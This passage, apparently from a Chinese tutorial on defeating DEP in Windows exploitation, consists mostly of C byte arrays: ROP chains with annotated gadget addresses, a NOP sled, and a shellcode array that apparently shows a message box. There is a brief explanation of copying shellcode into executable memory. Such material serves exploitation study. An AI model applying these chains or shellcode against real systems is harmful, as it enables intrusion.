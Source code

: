	"\xff\x00\x00\x00"	  //2
	"\x00\x10\x00\x00"	  //3
	"\x40\x00\x00\x00"	  //4
	"\x90\x90\x90\x90"

	"\xe5\x0b\x76\x7d"
	"\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\x90\x90\x90\x90"

	"\x70\x6f\xc1\x77"    //memcpy
	"\x90\x90\x90\x90"
	"\xc3\x82\x99\x7c"    //call eax
	"\x00\x00\x03\x00"
	"\x20\x31\x40\x00"	  //不同编译器导致shellcode数组的起始位置不一样
	"\xa8\x00\x00\x00"
	;
	char shellcode2[]=
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	;


## **利用可执行内存**
在某些时候内存里会有一段可读可写可执行（RWE）的一段内存，虽然比较难得。
![](http://ww1.sinaimg.cn/large/7fb67c86gy1g1kzhiew38j20tv0ko402.jpg)
如果我们把shellcode用memcpy复制到这段内存里面就可以直接执行了，大体的操作和上面那题差不多，就不再演示了。
作者的代码

	#include <stdlib.h>
	#include <string.h>
	#include <stdio.h>
	#include <windows.h>
	char shellcode[]=
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90"
	"\x8a\x17\x84\x7c"//pop eax retn
	"\x0b\x1a\xbf\x7c"//pop pop retn
	"\xBA\xD9\xBB\x7C"//修正EBP retn 4
	"\x5f\x78\xa6\x7c"//pop retn
	"\x08\x00\x14\x00"//可执行内存中起始地址
	"\x00\x00\x14\x00"//可执行内存空间地址，复制用
	"\xBF\x7D\xC9\x77"//push esp jmp eax && 原始shellcode起始地址
	"\xFF\x00\x00\x00"//shellcode长度